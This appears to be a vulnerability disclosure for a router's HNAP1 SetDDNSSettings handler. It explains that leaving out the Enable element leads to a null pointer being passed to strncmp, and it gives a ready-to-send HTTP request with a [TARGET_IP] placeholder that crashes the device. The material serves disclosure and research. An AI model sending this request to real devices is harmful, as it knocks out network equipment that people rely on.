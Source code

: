 

## poc

The vulnerability exists in the XML parsing logic of the SetDDNSSettings HNAP1 function `sub_459180`:

![alt text](image-1.png)


When the `Enable` element is missing from the XML request, `mxmlFindElement()` returns NULL, resulting in the Text variable being assigned a null pointer. At line 42, this null pointer is passed as a function parameter to `strncmp()`, which dereferences the null pointer without performing a null check, causing the application to crash.

![alt text](image-2.png)

### request
```xml
POST /HNAP1/ HTTP/1.1
Host: [TARGET_IP]
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://purenetworks.com/HNAP1/SetDDNSSettings"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <SetDDNSSettings xmlns="http://purenetworks.com/HNAP1/">
      <Provider>dyndns.org</Provider>
      <Username>test</Username>
      <Password>test</Password>
      <Hostname>test.example.com</Hostname>
    </SetDDNSSettings>
  </soap:Body>
</soap:Envelope>
```